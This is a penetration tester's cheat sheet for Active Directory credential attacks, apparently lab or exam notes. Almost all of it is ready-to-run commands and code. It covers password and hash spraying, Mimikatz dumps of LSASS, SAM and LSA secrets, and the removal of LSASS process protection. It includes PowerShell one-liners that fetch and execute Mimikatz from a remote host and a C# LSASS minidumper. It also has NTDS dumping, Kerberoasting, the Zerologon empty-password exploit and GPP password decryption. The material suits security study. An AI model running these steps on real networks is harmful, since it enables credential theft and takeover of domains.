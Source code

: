 # Authentication

<details>

<summary>Credentials Spraying (hashes/passwords)</summary>

```bash
# Spray Hashes for Domain
nxc smb target.txt -u user.txt -H hashes.txt --continue-on-success
# Spray Hashes for Local Admin
nxc smb 172.16.150.0/24 -u administrator -H ed24.. --local-auth

# Spray Passwords for Domain
nxc smb target.txt -u user.txt -p passwords.txt --continue-on-success
```

</details>

<details>

<summary>Dumping Creds (Mimikatz Commands)</summary>

**ALWAYS OPEN WITH ADMIN CMD.EXE**

```bash
token::elevate
privilege::debug
log
sekurlsa::logonpasswords
 # IF ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005) --> Need bypass PPL
lsadump::sam
lsadump::secrets
lsadump::cache

sekurlsa::tickets
```

```powershell
powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-PowerDump.ps1 -UseBasicParsing);Invoke-PowerDump"

powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-Mimikatz.ps1 -UseBasicParsing); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'"
```

* If mimikatz is not dumping out required hashes/passwords, can try `mimikatz_2_1_1_x64.exe` (version 2.1.1). From [here](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip).

</details>

<details>

<summary>Getting Past Protected Process Light (PPL) for Mimikatz</summary>

* Detecting LSASS executing as Protected Process Light?

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

* How to workaround?
  * Must download mimidrv.sys in the same folder as mimikatz.exe&#x20;

<pre><code><strong>mimikatz # !+
</strong>mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
</code></pre>

</details>

<details>

<summary>Credential Dumping With NetExec (nxc)</summary>

<pre><code># Dump LSASS (Local Admin Privileges)
nxc smb 192.168.255.131 -u &#x3C;username> -p &#x3C;password> -M lsassy [--local-auth]

<strong># Dump SAM (Local Admin Privileges)
</strong>nxc smb 192.168.255.131 -u &#x3C;username> -p &#x3C;password> --sam [secdump] [--local-auth]
<strong>
</strong># Dump DPAPI (Local Admin Privileges)
nxc smb 192.168.255.131 -u &#x3C;username> -p &#x3C;password> --dpapi

<strong># Dump LSA Secrets (Domain Admin or Local Admin on DC)
</strong>nxc smb 192.168.255.131 -u &#x3C;username> -p &#x3C;password> --lsa [secdump]

# Dump NTDS.dit (Domain Admin or Local Admin on DC)
nxc smb 192.168.255.131 -u &#x3C;username> -p &#x3C;password> --ntds
</code></pre>

</details>

<details>

<summary>Mimikatz from dmp file</summary>

<pre><code><strong>using System;
</strong>using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;

namespace MiniDump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId,
          IntPtr hFile, int DumpType, IntPtr ExceptionParam,
          IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle,
          int processId);

        static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
            Process[] lsass = Process.GetProcessesByName("lsass");
            int lsass_pid = lsass[0].Id;

            IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
            bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        }
    }
}
</code></pre>

* Release --> x64 --> .\Minidump.exe from local admin account&#x20;
* Lsass.dmp is saved in C:\Windows\tasks

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Service Accounts Attacks</summary>

* When user wants to access resource hosted by SPN, client requirests a service ticket that is generated by DC
* Service ticket is encrypted through the password hash of the SPN&#x20;
* Application server then decrypt and validate the service ticket

```powershell
Add-Type -AssemblyName System.IdentityModel
```

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

* The following command will display all cached Kerberos tickets for the current user.

```powershell
klist
```

* To download the service ticket with `mimikatz`

```
privilege::debug
```

```powershell
kerberos::list /export
```

* To crack the service ticket to obtain cleartext password

```bash
sudo apt update && sudo apt install kerberoast
```

```bash
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

</details>

<details>

<summary>Abusing TGT and TGS tickets</summary>

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::tickets
```

</details>

<details>

<summary>To dump the credentials of all logged-on users</summary>

```bash
mimikatz.exe
```

To engage the SeDebugPrivlege privilege, which will allow us to interact with a process owned by another account.

```sh
privilege::debug
```

```
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Dump Machine Acc's hashes</summary>

```bash
# https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py
rpcdump.py <IP>|grep MS-RPRN
# https://github.com/NotMedic/NetNTLMtoSilverTicket
python dementor.py -u Guest -p ''  <target> <responder>
```

</details>

<details>

<summary>Zerologon</summary>

* Quick Win

[https://github.com/risksense/zerologon/blob/master/set\_empty\_pw.py](https://github.com/risksense/zerologon/blob/master/set_empty_pw.py)

<pre class="language-bash"><code class="lang-bash">python3 set_empty_pw.py DC01 192.168.194.165
<strong>secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
</strong><strong># secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'htb.local/forest$@10.10.10.161'
</strong></code></pre>

</details>

<details>

<summary>GPP Passwords</summary>

* When new Group Policy Preference is created --> XML file in SYSVOL share (Groups.xml) will contain all config data (including passwords)
* Microsoft patched it in 2014 to prevent admins from putting passwords into GPP&#x20;

```xml
# Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# GPPstillStandingStrong2k18
```

</details>

